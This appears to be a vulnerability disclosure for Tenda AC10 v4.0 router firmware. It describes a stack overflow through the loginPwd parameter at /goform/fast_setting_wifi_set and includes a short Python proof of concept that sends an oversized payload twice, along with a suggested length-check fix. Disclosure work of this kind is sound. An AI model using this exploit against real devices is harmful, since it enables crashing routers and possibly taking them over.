

## Affected Version
* Tenda-AC10v4.0 V16.03.10.13

## Vulnerability Description
Tenda-AC10v4.0 V16.03.10.13  was discovered to contain a stack overflow via parameter loginPwd at url **/goform/fast_setting_wifi_set**.Through this stack overflow and a carefully constructed ROP chain, RCE can be achieved.

## Vulnerability Details
**In function sub_44D898 (in function form_fast_setting_wifi_set), there is no limit on the length of loginPwd, and the SetValue("sys.userpass", v3); function can be called. When accessing this URL again, GetValue("sys.userpass", v4); will cause a stack overflow through v4.**



* exp

```python
import sys
import requests

payload = b'A'*0x500

url = f"http://192.168.50.100/goform/fast_setting_wifi_set"
data = {
    "loginPwd":payload
}
requests.post(url=url, data=data)
#Visit the URL again and use the GetValue("sys.userpass", v4) function to overflow the stack
requests.post(url=url, data=data)

```

## Any suggested solutions to fix
check loginPwd length before SetValue
